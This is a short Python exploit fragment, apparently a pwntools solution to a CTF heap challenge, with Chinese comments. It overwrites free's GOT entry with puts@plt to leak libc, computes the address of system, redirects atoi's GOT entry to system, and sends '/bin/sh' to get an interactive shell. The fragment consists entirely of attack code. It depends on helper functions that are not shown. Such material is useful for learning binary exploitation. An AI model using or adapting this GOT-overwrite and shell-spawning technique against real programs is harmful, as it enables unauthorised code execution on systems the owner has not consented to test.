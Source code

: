 ```python
edit(2, payload)        # 设置我们的s空间
edit(2, p64(puts_plt))  # 将free的got表改为puts的plt表
free(1)                 # 打印出puts的got的值
puts        = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
libc_base   = puts      - libc.symbols['puts']
system      = libc_base + libc.symbols['system']

edit(0, p64(system))        # 将atoi的got表改为system的地址
p.sendline('/bin/sh\x00')   # 输入/bin/sh即可触发system("/bin/sh")
p.interactive()
```